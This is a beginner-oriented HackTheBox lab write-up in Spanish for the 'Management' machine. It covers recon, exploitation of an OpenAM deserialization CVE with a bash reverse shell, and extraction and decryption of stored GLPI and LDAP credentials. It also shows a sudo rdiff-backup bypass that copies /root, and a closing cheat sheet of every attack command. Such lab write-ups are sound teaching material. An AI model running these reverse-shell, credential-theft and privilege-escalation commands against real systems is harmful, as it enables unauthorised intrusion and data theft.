

# HTB : Management "Writeup"


> **Máquina:** Management · **Dificultad:** Easy (tirando a Medium) · **Sistema:** Linux
> **Autor:** Alexandro Alanya Montoya (`AlexGG2005`)
> **Para quién:** cualquiera que empiece en pentesting. No se asume conocimiento previo: cada comando y cada concepto se explica.
>
> **Nota:** aunque está catalogada como *Easy*, en la práctica se siente **Easy tirando a Medium**: el acceso inicial usa un CVE muy reciente y la cadena hasta root encadena varios pasos (deserialización → descifrado de credenciales → abuso de sudo).

---

## Cómo leer esta guía

- Los **comandos** van en cajas oscuras. Escríbelos (o cópialos) en la terminal y pulsa **Enter**.
- Debajo de cada comando explico **qué hace**, **qué significa cada opción** y **qué deberías ver**.
- Cuando veas `10.129.148.128` (IP de la máquina) o `10.10.15.239` (tu IP en la VPN), **cámbialas por las tuyas** — cambian en cada sesión.
- Solo incluyo el **camino que funciona**. No hay pasos de relleno ni callejones sin salida.

---

## Índice

- [Fase 0 — Preparar el entorno](#fase-0--preparar-el-entorno)
- [Fase 1 — Conectarse al laboratorio (VPN)](#fase-1--conectarse-al-laboratorio-vpn)
- [Fase 2 — Reconocimiento: ¿qué hay en la máquina?](#fase-2--reconocimiento-qué-hay-en-la-máquina)
- [Fase 3 — Enumerar la web y descubrir OpenAM](#fase-3--enumerar-la-web-y-descubrir-openam)
- [Fase 4 — Entrar a la máquina (la vulnerabilidad)](#fase-4--entrar-a-la-máquina-la-vulnerabilidad)
- [Fase 5 — Ya estoy dentro: mirar alrededor](#fase-5--ya-estoy-dentro-mirar-alrededor)
- [Fase 6 — Conseguir la contraseña de un usuario real](#fase-6--conseguir-la-contraseña-de-un-usuario-real)
- [Fase 7 — La flag de usuario](#fase-7--la-flag-de-usuario)
- [Fase 8 — Convertirse en root (administrador)](#fase-8--convertirse-en-root-administrador)
- [Fase 9 — La flag de root](#fase-9--la-flag-de-root)
- [Glosario para principiantes](#glosario-para-principiantes)
- [Chuleta: todos los comandos seguidos](#chuleta-todos-los-comandos-seguidos)

---

## Fase 0 — Preparar el entorno

Antes de empezar necesitas **Kali Linux** (la distribución de hacking) con conexión a Internet. Casi todas las herramientas ya vienen instaladas. Las que usaremos y para qué sirven:

| Herramienta | ¿Para qué sirve? |
|---|---|
| `openvpn` | Conectarte a la red privada del laboratorio de HTB. |
| `nmap` | Escanear la máquina y descubrir qué servicios (puertos) tiene abiertos. |
| `ldapsearch` | Hacer consultas a un servidor LDAP (una "agenda" de usuarios). |
| `firefox` | Abrir las páginas web de la máquina. |
| `curl` | Pedir páginas web desde la terminal (sin navegador). |
| `nc` (netcat) | Ponerte a la escucha para recibir la "reverse shell". |
| `mysql` | Cliente para hablar con la base de datos MySQL. |
| `php` | Ejecutar un pequeño script de PHP para descifrar una contraseña. |
| `git`, `wget` | Descargar el exploit y ficheros de Internet. |
| `javac` (JDK 21) | Compilar el exploit (está escrito en Java). Lo instalamos en la Fase 4. |

> **Consejo:** trabaja siempre con **varias terminales abiertas** (pestañas). En Kali abres una pestaña nueva con `Ctrl + Shift + T`. Necesitaremos una para la VPN (que queda ocupada), otra para el "listener" y otra para escribir comandos.

---

## Fase 1 — Conectarse al laboratorio (VPN)

La máquina objetivo **no está en Internet abierto**: vive dentro de la red privada de HackTheBox. Para "entrar" a esa red usamos una **VPN** (una red privada virtual).

### Paso 1.1 — Descargar tu archivo de conexión

En la web de HTB, en la página de la máquina, pulsa **Connect**, elige el servidor (por ejemplo *EU Machines 5*) y descarga el archivo `.ovpn`. Se guarda normalmente en tu carpeta de Descargas o Escritorio. En mi caso se llamaba `machines_eu-5.ovpn`.

### Paso 1.2 — Levantar la VPN

En una terminal (déjala abierta todo el tiempo):

```bash
sudo openvpn ~/Desktop/machines_eu-5.ovpn
```

**Qué significa cada parte:**

- `sudo` → ejecutar como administrador (la VPN necesita permisos para crear una interfaz de red).
- `openvpn` → el programa de VPN.
- `~/Desktop/machines_eu-5.ovpn` → la ruta a tu archivo. `~` es tu carpeta personal. Ajusta el nombre al tuyo.

**Qué deberías ver** (al final de un montón de texto):

```text
Initialization Sequence Completed
```

Esa línea significa **"VPN conectada"**. ⚠️ **No cierres esta terminal.** Si la cierras, se corta la VPN.

### Paso 1.3 — Comprobar que estás conectado

Abre **otra** terminal y escribe:

```bash
ip a show tun0
```

**Qué hace:** muestra la interfaz de red `tun0`, que es la que crea la VPN. Deberías ver una línea con una IP tipo `10.10.15.239`. **Esa es TU IP dentro del laboratorio** — apúntala, la usaremos para que la máquina "nos devuelva la llamada" más adelante.

Si no aparece `tun0`, la VPN no está conectada: vuelve al paso 1.2.

---

## Fase 2 — Reconocimiento: ¿qué hay en la máquina?

Reconocer = averiguar qué servicios ofrece la máquina antes de atacar. Es como mirar todas las puertas y ventanas de un edificio.

### Paso 2.1 — Un detalle importante: el ping no funciona

Si haces `ping 10.129.148.128` verás "100% packet loss". **No te asustes:** muchas máquinas de HTB bloquean el ping (el protocolo ICMP) a propósito. Por eso a `nmap` le diremos que **no haga ping** y que ataque igual, con la opción `-Pn`.

### Paso 2.2 — Escanear todos los puertos con Nmap

```bash
nmap -Pn -sC -sV -p- --min-rate=1000 -oN nmap_management.txt 10.129.148.128
```

**Qué significa cada opción:**

- `-Pn` → "no hagas ping primero, asume que la máquina está viva". Necesario porque bloquea ICMP.
- `-sC` → lanza los **scripts básicos** de nmap (recogen información extra de cada servicio).
- `-sV` → detecta la **versión** de cada servicio (por ejemplo "nginx 1.24.0"). Las versiones son oro: nos dicen si algo es vulnerable.
- `-p-` → escanea **los 65535 puertos** (por defecto solo mira los 1000 más comunes; con `-p-` no se escapa ninguno).
- `--min-rate=1000` → envía al menos 1000 paquetes por segundo (acelera el escaneo).
- `-oN nmap_management.txt` → guarda el resultado en un archivo de texto (útil para el informe).
- `10.129.148.128` → la IP objetivo.

Tarda 1–3 minutos. **Qué deberías ver** (resumido):

```text
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu
80/tcp    open  http     nginx 1.24.0 (redirige a https://management.htb)
443/tcp   open  ssl/http nginx 1.24.0 (certificado: management.htb)
1689/tcp  open  java-rmi  Java RMI
4444/tcp  open  ssl/ldap  (Admin Connector, sso.management.htb)
37981/tcp open  java-rmi
50389/tcp open  ldap     (Anonymous bind OK)
```

### Paso 2.3 — Entender qué encontramos

- **22 (SSH):** acceso remoto por consola. Nos servirá cuando tengamos una contraseña.
- **80 / 443 (web):** un sitio web que redirige a `management.htb`. Hay dos nombres de dominio en juego: `management.htb` y `sso.management.htb`.
- **1689, 37981 (Java-RMI) y 4444 (ldap):** son piezas internas de **OpenDJ** (un servidor de directorio LDAP).
- **50389 (LDAP con "Anonymous bind OK"):** un servidor LDAP que permite conectarse **sin usuario ni contraseña**. Interesante.

Conclusión: **no es una web normal**, es un **servidor de identidad (SSO)** basado en OpenAM + OpenDJ.

### Paso 2.4 — Enseñarle a Kali los nombres de dominio

La máquina responde a los nombres `management.htb` y `sso.management.htb`, pero tu Kali no sabe a qué IP corresponden. Se lo decimos escribiéndolo en el archivo `/etc/hosts`:

```bash
echo "10.129.148.128 management.htb sso.management.htb" | sudo tee -a /etc/hosts
```

**Qué hace:**

- `echo "..."` → imprime ese texto.
- `|` (tubería) → envía ese texto al siguiente comando.
- `sudo tee -a /etc/hosts` → `tee -a` **añade** (`-a` = append) esa línea al final del archivo `/etc/hosts` (con permisos de administrador).

A partir de ahora, cuando Kali vea `management.htb`, sabrá que es `10.129.148.128`.

### Paso 2.5 — Curiosear el LDAP anónimo

LDAP es como una **agenda de contactos** de una empresa (usuarios, grupos, etc.). Vamos a preguntarle cuál es su "raíz" (el punto de partida del árbol de datos):

```bash
ldapsearch -x -H ldap://10.129.148.128:50389 -s base -b "" namingContexts
```

**Qué significa:**

- `-x` → autenticación **simple/anónima** (sin usuario).
- `-H ldap://10.129.148.128:50389` → a qué servidor conectarse (host y puerto).
- `-s base -b ""` → pregunta solo por la información de la **raíz** del servidor.
- `namingContexts` → el atributo que queremos: nos dirá el nombre base del árbol.

**Qué deberías ver:**

```text
namingContexts: dc=management,dc=htb
```

Eso significa que el árbol de datos se llama `dc=management,dc=htb`. Guárdalo. (Ojo: este LDAP anónimo **no** nos deja leer las contraseñas de los usuarios; para eso necesitaremos credenciales, que conseguiremos más adelante. Por eso aquí paramos y seguimos por la web.)

---

## Fase 3 — Enumerar la web y descubrir OpenAM

### Paso 3.1 — Abrir el portal principal

Abre Firefox y entra a:

```text
https://management.htb
```

Te saldrá una **advertencia de certificado** (porque usa un certificado autofirmado). Es normal en estos laboratorios: pulsa *Advanced → Accept the Risk and Continue*. Verás la web de una empresa ficticia de servicios informáticos.

### Paso 3.2 — Abrir el subdominio del SSO

Ahora entra a:

```text
https://sso.management.htb/openam
```

Verás una pantalla de **login de OpenAM**. Fíjate en el pie de la página: dice *open-identity-platform-openam*. Esto es clave: **no es el OpenAM original de ForgeRock**, sino el fork mantenido por **OpenIdentityPlatform**. Ese detalle decide qué vulnerabilidad usar.

### Paso 3.3 — Confirmar que el servicio responde

Desde la terminal, pídele a OpenAM su página de versión:

```bash
curl -sk https://sso.management.htb/openam/ccversion/Version
```

**Qué significa:**

- `curl` → descarga una página desde la terminal.
- `-s` → modo silencioso (sin barra de progreso).
- `-k` → acepta el certificado autofirmado sin quejarse.

Verás HTML. Lo importante: el servicio **está vivo y accesible sin login**. Eso nos basta para atacar.

---

## Fase 4 — Entrar a la máquina (la vulnerabilidad)

### Paso 4.1 — Entender qué vamos a explotar (en palabras simples)

OpenAM está hecho en **Java**. Cuando recibe cierto dato del usuario (un parámetro llamado `jato.clientSession`), lo **"deserializa"**: reconstruye un objeto Java a partir de un texto que le mandamos. El problema es que **no comprueba qué tipo de objeto** está reconstruyendo. Un atacante puede mandar un objeto "trampa" que, al reconstruirse, **ejecuta un comando** en el servidor. A esto se le llama **deserialización insegura** y aquí tiene un nombre: **CVE-2026-33439**.

> **Dato de criptografía:** el objeto trampa viaja escrito en **Base64 URL-safe**. Base64 es solo una **codificación** (una forma de escribir datos binarios como texto); **no** es cifrado: cualquiera puede revertirlo. No confundas *codificar* (reversible, sin secreto) con *cifrar* (protege con una clave).

El objetivo final del exploit es simple: que el servidor **nos devuelva una consola (shell)**. Para recibirla usamos una **reverse shell**: la máquina se conecta de vuelta a *nuestra* Kali.

### Paso 4.2 — Instalar lo necesario

El exploit está en Java, así que necesitamos el **JDK 21** (el compilador `javac`). Instalamos también git, python y utilidades:

```bash
sudo apt update && sudo apt install -y openjdk-21-jdk python3 python3-pip git unzip
```

**Qué hace:**

- `apt update` → actualiza la lista de paquetes disponibles.
- `&&` → "si el anterior terminó bien, ejecuta el siguiente".
- `apt install -y ...` → instala los paquetes; `-y` responde "sí" automáticamente.

Comprueba que el compilador quedó bien:

```bash
javac -version
```

Debe decir algo como `javac 21.0.x`.

### Paso 4.3 — Descargar el exploit y el software oficial

```bash
cd ~
git clone https://github.com/TheMalwareGuardian/CVE-2026-33439.git
cd CVE-2026-33439
wget https://github.com/OpenIdentityPlatform/OpenAM/releases/download/16.0.5/OpenAM-16.0.5.war
```

**Qué hace cada línea:**

- `cd ~` → ir a tu carpeta personal.
- `git clone ...` → **descargar** el repositorio del exploit (crea una carpeta `CVE-2026-33439`).
- `cd CVE-2026-33439` → entrar a esa carpeta.
- `wget ...` → descargar el archivo **OpenAM-16.0.5.war** (el software oficial). El exploit necesita las librerías Java que vienen dentro de esa versión.

### Paso 4.4 — Verificar la integridad con SHA-256 (buena práctica)

Antes de usar algo descargado, conviene comprobar que **no fue alterado**. Calculamos su "huella digital" con SHA-256:

```bash
sha256sum OpenAM-16.0.5.war
```

**Qué es esto:** SHA-256 es una **función hash**: convierte cualquier archivo en una cadena fija de 64 caracteres. Si el archivo cambia aunque sea un bit, la huella cambia por completo. Mi resultado fue:

```text
4162ecc8c6bf10c256862795eb348d090b8fda4a5ebc9f4217e45c2650ef8316
```

(El exploit ya trae, dentro de la carpeta `Jars/`, las 7 librerías que necesita — no hay que sacarlas del WAR a mano.)

### Paso 4.5 — Confirmar el punto de entrada

Preguntamos a OpenAM por la página de recuperación de contraseña (la que procesa el parámetro vulnerable):

```bash
curl -sk "https://sso.management.htb/openam/ui/PWResetUserValidation" | grep -o "jato[^\"']*" | sort -u
```

**Qué hace:**

- `curl -sk "..."` → descarga esa página.
- `| grep -o "jato[^\"']*"` → filtra y muestra solo las palabras que empiezan por `jato`.
- `| sort -u` → ordena y quita duplicados.

**Qué deberías ver:**

```text
jato.defaultCommand
jato.pageSession
```

Ver `jato.pageSession` confirma que el motor JATO está activo en esa página; por tanto también procesará `jato.clientSession` (el parámetro vulnerable). Vía confirmada.

### Paso 4.6 — Preparar el "oído" (listener)

Abre una **terminal nueva** y ponte a la escucha en el puerto 4444. Aquí es donde caerá la consola cuando el servidor nos "devuelva la llamada":

```bash
nc -lvnp 4444
```

**Qué significa:**

- `nc` → netcat, la "navaja suiza" de las conexiones.
- `-l` → modo **escucha** (listen).
- `-v` → **verbose**, para que muestre información cuando alguien se conecte.
- `-n` → no resolver nombres (más rápido).
- `-p 4444` → escuchar en el **puerto 4444**.

Debe quedarse esperando con el mensaje `listening on [any] 4444 ...`. **Deja esta terminal abierta y quieta.**

### Paso 4.7 — Lanzar el exploit

Vuelve a la terminal del exploit. Entra a la carpeta donde está el script y lánzalo. **Usa TU IP de `tun0`** (la del paso 1.3) en el comando de la reverse shell:

```bash
cd ~/CVE-2026-33439/"02 Exploit"
python3 Exploit_CVE_2026_33439.py \
  --url https://sso.management.htb/openam \
  --command "bash -i >& /dev/tcp/10.10.15.239/4444 0>&1" \
  --jars Jars/
```

**Qué significa cada parte:**

- `--url https://sso.management.htb/openam` → dónde está OpenAM.
- `--command "bash -i >& /dev/tcp/10.10.15.239/4444 0>&1"` → el comando que ejecutará el servidor. Es una **reverse shell de bash**: abre una consola (`bash -i`) y la conecta hacia tu IP (`10.10.15.239`) al puerto `4444`. **Cambia esa IP por la tuya.**
- `--jars Jars/` → la carpeta con las 7 librerías necesarias.
- Las `\` al final de cada línea solo sirven para partir el comando en varias líneas; puedes escribirlo todo seguido si prefieres.

**Qué deberías ver en la terminal del exploit:** mensajes de que compila el "translet", arma el payload, lo codifica en Base64 y lo entrega a los endpoints. Termina con "Done".

**Qué deberías ver en la terminal del listener:** algo como:

```text
connect to [10.10.15.239] from (UNKNOWN) [10.129.148.128] 59102
openam@management:/$
```

🎉 **¡Estás dentro!** Tienes una consola en la máquina como el usuario de servicio **`openam`**.

### Paso 4.8 — Mejorar la consola (estabilizar la TTY)

La consola que acabas de recibir es "cruda": no tiene autocompletado, y si pulsas `Ctrl+C` se muere. La mejoramos así, **en la consola de la víctima** (la del listener):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Esto abre una shell más completa. Ahora pulsa **`Ctrl+Z`** (esto la deja en pausa y te devuelve a Kali). En tu Kali escribe:

```bash
stty raw -echo; fg
```

Pulsa **Enter dos veces**. Volverás a la consola de la víctima. Por último, dile qué tipo de terminal es:

```bash
export TERM=xterm
```

Ya tienes una consola cómoda (flechas, `Ctrl+C`, `clear`, etc.).

---

## Fase 5 — Ya estoy dentro: mirar alrededor

Nunca estamos donde queremos estar del todo. Somos `openam` (un usuario de servicio), pero el objetivo es primero ser el usuario **`owen`** y después **root**. Vamos a orientarnos.

### Paso 5.1 — ¿Quién soy y quién más hay?

```bash
id
ls -la /home
```

**Qué hace:**

- `id` → dice tu usuario y grupos. Verás `uid=996(openam)`.
- `ls -la /home` → lista las carpetas personales. Verás una carpeta **`owen`**, pero con permisos `drwxr-x---`, es decir, **solo owen puede entrar**. Ese es nuestro siguiente objetivo.

### Paso 5.2 — Mirar qué aplicaciones hay instaladas

```bash
ls -la /opt
```

**Qué es `/opt`:** una carpeta donde se instalan programas "extra". Aquí encontramos cosas muy jugosas:

- `openam` y `openam-tomcat` → la plataforma OpenAM y su base de datos LDAP (OpenDJ).
- `glpi` → una aplicación web de gestión de IT (suele guardar credenciales).
- `backup`, `backups` → respaldos.

La clave estará en cómo estas aplicaciones **guardan sus contraseñas**.

---

## Fase 6 — Conseguir la contraseña de un usuario real

Este es el corazón del reto. Vamos a demostrar la diferencia entre **guardar contraseñas de forma segura** y **guardarlas mal**.

### Concepto: hashing vs cifrado (léelo, es importante)

- **Hashing** (SHA-512, bcrypt): es una función de **una sola vía**. De la contraseña sale un "hash", pero **del hash NO se puede volver a la contraseña** (salvo probando millones de combinaciones). Es la forma correcta de guardar contraseñas.
- **Cifrado reversible** (AES, libsodium): protege el dato con una **clave**, pero **con la clave se puede recuperar el original**. Si la clave está en el mismo servidor, un atacante que entre la encuentra y descifra todo. **Esta es la debilidad del reto.**

### Paso 6.1 — Ver la configuración de OpenAM (y su hash)

```bash
cat /opt/openam/config/boot.json
```

Esto muestra la configuración de arranque. Fíjate en `dirManagerDN: cn=Directory Manager` y el puerto `50389`: es la cuenta administradora del LDAP. Su contraseña está guardada como **hash SSHA-512** (SHA-512 con "sal"), que **no** se puede revertir. Puedes verlo con:

```bash
grep -i "userPassword" /opt/openam/config/opends/config/config.ldif
```

Verás algo como `userPassword: {SSHA512}axraGrPZ...`. Como es un hash fuerte, **no** intentamos romperlo: buscamos otra vía más fácil.

### Paso 6.2 — Sacar las credenciales de la base de datos de GLPI

GLPI guarda en un archivo, **en texto claro**, la contraseña de su base de datos. La leemos:

```bash
cat /opt/glpi/config/config_db.php
```

**Qué deberías ver:**

```text
dbuser     = 'glpi'
dbpassword = '8rhu0L6Pw4Y7'
dbdefault  = 'glpidb'
```

¡Ya tenemos usuario y contraseña de la base de datos! (`glpi` / `8rhu0L6Pw4Y7`).

### Paso 6.3 — Entrar a la base de datos y buscar la joya

GLPI puede conectarse a un LDAP con una **cuenta de servicio**. Guarda esa contraseña **cifrada de forma reversible**. La sacamos de la base de datos:

```bash
mysql -u glpi -p'8rhu0L6Pw4Y7' glpidb -e "SELECT rootdn, rootdn_passwd FROM glpi_authldaps\G"
```

**Qué significa:**

- `mysql` → el cliente de base de datos.
- `-u glpi` → usuario.
- `-p'8rhu0L6Pw4Y7'` → contraseña (pegada a `-p`, sin espacio).
- `glpidb` → la base de datos.
- `-e "SELECT ..."` → ejecuta esa consulta SQL y sale.
- `\G` → muestra el resultado en vertical (más legible).

**Qué deberías ver:**

```text
rootdn        : cn=svc-glpi,ou=services,dc=management,dc=htb
rootdn_passwd : avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==
```

Esa `rootdn_passwd` **no** está en claro: está **cifrada** con la clave de GLPI. Pero como el cifrado es **reversible** y la clave está en el propio servidor... la podemos descifrar.

### Paso 6.4 — Descifrar la contraseña con la clave de GLPI

GLPI trae su propia clase para cifrar/descifrar (`GLPIKey`) usando su clave local (`glpicrypt.key`). Le pedimos a PHP que la use para descifrar:

```bash
cd /opt/glpi
php -r 'define("GLPI_CONFIG_DIR","/opt/glpi/config"); require "vendor/autoload.php"; echo (new \GLPIKey())->decrypt("avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==") . "\n";'
```

**Qué hace, en simple:**

- `cd /opt/glpi` → nos ponemos en la carpeta de GLPI (para que encuentre sus librerías).
- `php -r '...'` → ejecuta ese código PHP directamente.
- `define("GLPI_CONFIG_DIR", ...)` → le decimos dónde está la carpeta de configuración (ahí vive la clave `glpicrypt.key`).
- `require "vendor/autoload.php"` → carga las librerías de GLPI.
- `(new \GLPIKey())->decrypt("...")` → **descifra** el texto usando la clave local.

**Qué deberías ver:**

```text
WpczC40GhTbk
```

¡Contraseña en claro recuperada! Esta es la lección del reto: **almacenar contraseñas de forma reversible es peligroso**, porque quien lea el servidor también encuentra la clave.

### Paso 6.5 — Probar esa contraseña con el usuario del sistema

Aquí ocurre el clásico error humano: **reutilizar contraseñas**. La contraseña de la cuenta de servicio es la misma que la del usuario **`owen`** del sistema. Cambiamos a ese usuario:

```bash
su - owen
```

Cuando pida `Password:`, escribe:

```text
WpczC40GhTbk
```

(No verás nada mientras escribes la contraseña, es normal.) Si todo va bien, el prompt cambia a `owen@management:~$`. Comprueba quién eres:

```bash
id
```

Verás `uid=1000(owen)`. **Ya somos owen.**

---

## Fase 7 — La flag de usuario

La primera "bandera" (flag) está en la carpeta personal de owen:

```bash
cat ~/user.txt
```

**Qué hace:** `cat` muestra el contenido de un archivo; `~` es la carpeta de owen. Verás 32 caracteres, por ejemplo:

```text
38c221d38137f8497ff713b42ef88096
```

Cópiala y envíala en la web de HTB, en **Submit User Flag**. ✅ ¡Primer objetivo cumplido!

---

## Fase 8 — Convertirse en root (administrador)

`owen` es un usuario normal. Queremos ser **root** (control total). Buscamos un permiso especial mal configurado.

### Paso 8.1 — Ver qué puede ejecutar owen como root

```bash
sudo -l
```

**Qué hace:** `sudo -l` **lista** qué comandos puede ejecutar tu usuario como root. Resultado:

```text
(root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup
       --restrict-mode read-only *
```

**Traducción:** owen puede ejecutar `rdiff-backup` **como root y sin contraseña** (`NOPASSWD`). Se supone que está "restringido" a la carpeta `/opt/backup` y en modo solo lectura. Pero fíjate en el **`*`** del final: significa que podemos añadir **argumentos extra**. Ahí está el fallo.

### Paso 8.2 — Entender el truco (el bypass)

`rdiff-backup` es una herramienta de copias de seguridad. Funciona en modo cliente-servidor. La regla de sudo levanta un **"servidor" rdiff-backup como root**, restringido a `/opt/backup`. Pero como la regla termina en `*`, podemos **añadir un segundo `--restrict-path`** que apunte a la carpeta que **nosotros** queremos leer (`/root`). Como el servidor corre **como root**, tiene permiso para leer `/root`, y el modo "solo lectura" únicamente impide **escribir**, no **leer**. Resultado: podemos **copiarnos la carpeta `/root` completa**.

### Paso 8.3 — Ejecutar el bypass

```bash
rdiff-backup --remote-schema "sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s" /root::/root /tmp/root_backup
```

**Qué significa, por partes:**

- `rdiff-backup` → lanzamos el **cliente** (como owen).
- `--remote-schema "..."` → le decimos **cómo arrancar el servidor remoto**. Aquí metemos exactamente la orden que sudo nos permite, y **añadimos** `--restrict-path %s`. El `%s` lo rellena automáticamente `rdiff-backup` con la ruta que pedimos.
- `/root::/root` → la parte antes de `::` es lo que rellenará el `%s` (`/root`), y la parte de después es la carpeta a copiar (`/root`). En la práctica esto le dice: "abre el servidor restringido a `/root` y cópiame `/root`".
- `/tmp/root_backup` → dónde guardar la copia (una carpeta temporal a la que sí tenemos acceso).

Verás algunos **WARNING** de "interfaz obsoleta" (no importan) y, al final, la línea clave:

```text
NOTE: Starting mirror from source path /root to destination path /tmp/root_backup
```

Eso significa que **se copió `/root`** a `/tmp/root_backup`. ¡El bypass funcionó!

---

## Fase 9 — La flag de root

Leemos la bandera final desde la copia que acabamos de hacer:

```bash
cat /tmp/root_backup/root.txt
```

Verás los 32 caracteres de la flag de root, por ejemplo:

```text
ec6e23a3194f2a810d57bfece8fb2e17
```

Envíala en HTB, en **Submit Root Flag**. 🏆 **¡Máquina completada!**

> **Extra (opcional):** dentro de `/tmp/root_backup/.ssh` está la clave privada SSH de root. Con ella podrías entrar como root de forma interactiva: `ssh -i /tmp/root_backup/.ssh/id_ed25519 root@10.129.148.128`. No es necesario para las flags, pero es una consola root "de verdad".

---

## Glosario para principiantes

- **VPN:** túnel privado que te mete en la red del laboratorio.
- **Puerto:** "puerta" numerada por la que un servicio ofrece algo (22 = SSH, 443 = web segura, etc.).
- **Nmap:** escáner que descubre puertos y servicios.
- **Vhost (virtual host):** varios sitios web servidos desde la misma IP según el nombre de dominio.
- **LDAP:** servicio tipo "agenda" que guarda usuarios y grupos de una organización.
- **SSO (Single Sign-On):** iniciar sesión una vez para acceder a varias aplicaciones. OpenAM es un SSO.
- **Deserialización insegura:** reconstruir un objeto a partir de datos del usuario sin validarlo; permite ejecutar código.
- **Reverse shell:** consola en la que la **víctima** se conecta hacia el atacante (útil para saltar cortafuegos).
- **Listener:** programa (aquí `nc`) que espera esa conexión de vuelta.
- **Hash / hashing:** huella de una sola vía (no reversible). SHA-256, SHA-512, bcrypt.
- **Cifrado reversible:** protege con una clave, y con la clave se recupera el original. AES, libsodium.
- **Base64:** forma de escribir binario como texto; es **codificación**, no cifrado.
- **Flag:** cadena de 32 caracteres que demuestra que resolviste una parte del reto.
- **Escalada de privilegios:** pasar de usuario normal a administrador (root).
- **GTFOBins:** lista de binarios de Linux que, mal configurados con sudo, permiten escalar (rdiff-backup es uno).

---

## Chuleta: todos los comandos seguidos

```bash
# --- 1. VPN ---
sudo openvpn ~/Desktop/machines_eu-5.ovpn        # (dejar abierta)
ip a show tun0                                    # anota tu IP (10.10.15.239)

# --- 2. Reconocimiento ---
nmap -Pn -sC -sV -p- --min-rate=1000 -oN nmap_management.txt 10.129.148.128
echo "10.129.148.128 management.htb sso.management.htb" | sudo tee -a /etc/hosts
ldapsearch -x -H ldap://10.129.148.128:50389 -s base -b "" namingContexts

# --- 3. Web ---
curl -sk https://sso.management.htb/openam/ccversion/Version

# --- 4. Explotación ---
sudo apt update && sudo apt install -y openjdk-21-jdk python3 python3-pip git unzip
cd ~ && git clone https://github.com/TheMalwareGuardian/CVE-2026-33439.git
cd CVE-2026-33439
wget https://github.com/OpenIdentityPlatform/OpenAM/releases/download/16.0.5/OpenAM-16.0.5.war
sha256sum OpenAM-16.0.5.war
curl -sk "https://sso.management.htb/openam/ui/PWResetUserValidation" | grep -o "jato[^\"']*" | sort -u
# (terminal aparte) listener:
nc -lvnp 4444
# lanzar exploit (cambia la IP por la tuya):
cd ~/CVE-2026-33439/"02 Exploit"
python3 Exploit_CVE_2026_33439.py --url https://sso.management.htb/openam \
  --command "bash -i >& /dev/tcp/10.10.15.239/4444 0>&1" --jars Jars/

# --- 5. Estabilizar shell (en la víctima) ---
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z ; en Kali: stty raw -echo; fg ; Enter x2 ; luego:
export TERM=xterm

# --- 6. Post-explotación -> owen ---
id ; ls -la /home ; ls -la /opt
cat /opt/glpi/config/config_db.php
mysql -u glpi -p'8rhu0L6Pw4Y7' glpidb -e "SELECT rootdn, rootdn_passwd FROM glpi_authldaps\G"
cd /opt/glpi
php -r 'define("GLPI_CONFIG_DIR","/opt/glpi/config"); require "vendor/autoload.php"; echo (new \GLPIKey())->decrypt("avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==")."\n";'
su - owen            # contraseña: WpczC40GhTbk

# --- 7. User flag ---
cat ~/user.txt

# --- 8. Escalada a root ---
sudo -l
rdiff-backup --remote-schema "sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s" /root::/root /tmp/root_backup

# --- 9. Root flag ---
cat /tmp/root_backup/root.txt
```

---

### Resultado



Máquina resuelta — **player #2143** en resolver *Management*. 🏆

---

<sub>Guía con fines educativos, sobre un laboratorio autorizado de HackTheBox. Módulo de Criptografía Aplicada — SENATI. Autor: Alexandro Alanya Montoya.</sub>
